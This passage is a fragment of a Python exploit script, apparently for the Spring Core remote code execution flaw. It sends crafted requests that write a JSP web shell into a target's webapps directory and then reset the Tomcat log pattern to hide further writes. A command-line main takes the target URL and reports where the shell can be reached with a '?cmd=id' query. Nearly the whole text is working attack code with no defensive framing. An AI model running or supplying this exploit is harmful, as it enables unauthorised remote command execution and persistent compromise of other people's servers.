 ```python3
    # Send the packet that writes the web shell
    ret = requests.get(url, headers=get_headers, verify=False)
    print("[*] Response Code: %d" % ret.status_code)

    time.sleep(1)

    # Reset the pattern to prevent future writes into the file
    pattern_data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern="
    print("[*] Resetting Log Variables.")
    ret = requests.post(url, headers=post_headers, data=pattern_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)


def main():
    parser = argparse.ArgumentParser(description='Spring Core RCE')
    parser.add_argument('--url', help='target url', required=True)
    parser.add_argument('--file', help='File to write to [no extension]', required=False, default="shell")
    parser.add_argument('--dir', help='Directory to write to. Suggest using "webapps/[appname]" of target app',
                        required=False, default="webapps/ROOT")

    file_arg = parser.parse_args().file
    dir_arg = parser.parse_args().dir
    url_arg = parser.parse_args().url

    filename = file_arg.replace(".jsp", "")

    if url_arg is None:
        print("Must pass an option for --url")
        return

    try:
        run_exploit(url_arg, dir_arg, filename)
        print("[+] Exploit completed")
        print("[+] Check your target for a shell")
        print("[+] File: " + filename + ".jsp")

        if dir_arg:
            location = urlparse(url_arg).scheme + "://" + urlparse(url_arg).netloc + "/" + filename + ".jsp"
        else:
            location = f"Unknown. Custom directory used. (try app/{filename}.jsp?cmd=id"
        print(f"[+] Shell should be at: {location}?cmd=id")
    except Exception as e:
        print(e)


if __name__ == '__main__':
    main()
```
